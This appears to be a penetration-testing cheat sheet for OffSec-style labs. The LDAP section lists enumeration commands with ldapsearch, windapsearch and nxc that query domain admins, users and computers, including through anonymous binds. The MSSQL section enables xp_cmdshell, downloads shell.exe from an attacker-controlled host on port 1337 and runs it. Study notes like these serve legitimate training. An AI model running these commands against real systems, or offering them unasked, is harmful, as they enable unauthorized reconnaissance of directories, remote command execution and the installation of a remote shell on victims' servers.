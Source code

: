 ##### LDAP | Port 389, 636, 3268, 3269
```bash
$ ldapsearch -x -H ldap://<IP>:<port> # try on both ldap and ldaps
$ ldapsearch -x -H ldap://$IP -s base namingcontexts
...
dn:
namingcontexts: DC=hutch,DC=offsec
namingcontexts: CN=Configuration,DC=hutch,DC=offsec
...
$ ldapsearch -x -H ldap://$IP -b "DC=hutch,DC=offsec"
$ ldapsearch -x -H ldap://<IP> -D '' -w '' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
$ ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
# CN name describes the info we want to collect
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
$ ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Computers,DC=<1_SUBDOMAIN>,DC=<TLD>"
$ ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Domain Admins,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
$ ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Domain Users,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
$ ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Enterprise Admins,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
$ ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Administrators,CN=Builtin,DC=<1_SUBDOMAIN>,DC=<TLD>"
$ ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Remote Desktop Users,CN=Builtin,DC=<1_SUBDOMAIN>,DC=<TLD>"

# https://github.com/ropnop/windapsearch
$ python3 windapsearch.py --dc-ip <IP address> -u <username> -p <password> --computers
$ python3 windapsearch.py --dc-ip <IP address> -u <username> -p <password> --groups
$ python3 windapsearch.py --dc-ip <IP address> -u <username> -p <password> --da
$ python3 windapsearch.py --dc-ip <IP address> -u <username> -p <password> --privileged-users

$ nxc ldap $IP -u '' -p '' -M get-desc-users
$ nxc ldap $IP -u '' -p '' --password-not-required --admin-count --users --groups
```

##### MSSQL | Port 1433
```bash
$ proxychains nxc mssql -d domain_name -u user -p password -x "whoami" $IP
$ proxychains nxc mssql -d domain_name -u user -p password -x "whoami" $IP -q 'SELECT name FROM master.dbo.sysdatabases;'

mssql> EXEC SP_CONFIGURE 'show advanced options', 1
mssql> EXEC SP_CONFIGURE 'xp_cmdshell' , 1
mssql> xp_cmdshell 'whoami'
mssql> xp_cmdshell 'powershell "Invoke-WebRequest -Uri http://$IP:1337/shell.exe -OutFile c:\Users\Public\shell.exe"'
mssql> xp_cmdshell 'c:\Users\Public\shell.exe"'
```
